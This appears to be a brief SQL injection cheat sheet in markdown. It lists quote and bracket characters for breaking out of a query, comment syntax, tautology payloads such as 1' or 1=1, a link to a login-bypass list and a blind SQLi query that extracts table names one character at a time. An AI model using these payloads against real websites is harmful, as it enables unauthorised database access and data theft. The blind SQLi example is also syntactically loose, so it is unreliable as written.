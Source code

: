 
# EXPLOIT SQL VULNERABILITIES

**1. Entry point detection**\
Several methods to exit the current context are usually available
```
'
"
`
')
")
`)
'))
"))
`))
```


If the server responds strangely, this site will be vulnerable to SQL injection (SQLi) and there will be trouble.\
Note: comment is used

```
- - comments
 or
/*comment*/
```
**2. Confirming with logical operations**\
A reliable method to confirm an SQL injection vulnerability involves executing a logical operation and observing the expected outcomes. \
For instance, a GET parameter such as *?username=Peter* yielding identical content when modified to ?*username=Peter' or'1'='1* indicates a SQL injection vulnerability.\
Similarly, the application of mathematical operations serves as an effective confirmation technique. \
For example, if accessing *?id=1* and *?id=2-1* produce the same result, it's indicative of SQL injection.
Examples demonstrating logical operation confirmation:

> page.asp?id=1 or 1=1 -- results in true
> 
> page.asp?id=1' or 1=1 -- results in true
> 
> page.asp?id=1" or 1=1 -- results in true
> 
> page.asp?id=1 and 1=2 -- results in false

**3. List Bypass**\
[Here](https://book.hacktricks.xyz/pentesting-web/login-bypass/sql-login-bypass)

**4. Exploiting Blind SQLi**


In this case you cannot see the results of the query or the errors, but you can distinguished when the query return a true or a false response because there are different contents on the page.\
In this case, you can abuse that behavior to dump the database char by char:
> ?id=1 AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables = 'A'
